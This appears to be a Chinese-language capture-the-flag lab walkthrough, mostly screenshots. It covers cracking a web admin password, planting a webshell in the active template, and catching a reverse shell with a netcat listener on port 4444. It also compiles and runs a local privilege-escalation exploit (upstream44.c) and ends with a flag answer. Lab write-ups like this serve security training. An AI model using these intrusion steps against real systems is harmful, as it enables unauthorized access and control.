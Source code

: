 ### 后台密码破解

{% asset_img 04.png %}

{% asset_img 05.png %}

### 登录后台写马

{% asset_img 06.png %}

{% asset_img 07.png %}

{% asset_img 08.png %}

> 插入木马的模板一定是当前的使用的模板 这个要注意

### 反弹shell

> 连接蚁剑 或 菜刀 反弹 shell 

{% asset_img 09.png %}

Kali 监听 4444 

```bash
┌──(root💀kali)-[~/192.168.100.8_FTP]
└─# nc -lvp 4444                                                                            1 ⚙
listening on [any] 4444 ...
```

{% asset_img 10.png %}

### 提权

> 上面发现当前是 www-data 然后在 ftp 服务上 发现了 一个 C 文件 ，upstream44.c 是用来提权的。。。
>
> 这题真 **磐云** ！！！

先创建个临时文件夹把 upstream44.c 上传上去，然后在 gcc 编译 upstream44.c

```bash
# 编译
www-data@deny-KVM:/var/www/html/test$ gcc -o upstream44 upstream44.c

# 运行
www-data@deny-KVM:/var/www/html/test$ ./upstream44
```

{% asset_img 11.png %}

{% asset_img 12.png %}

## 0x03-收割Flag

### 1.获取PHP的版本号作为Flag值提交；（例如：5.2.14）

```
7.0.33 
```
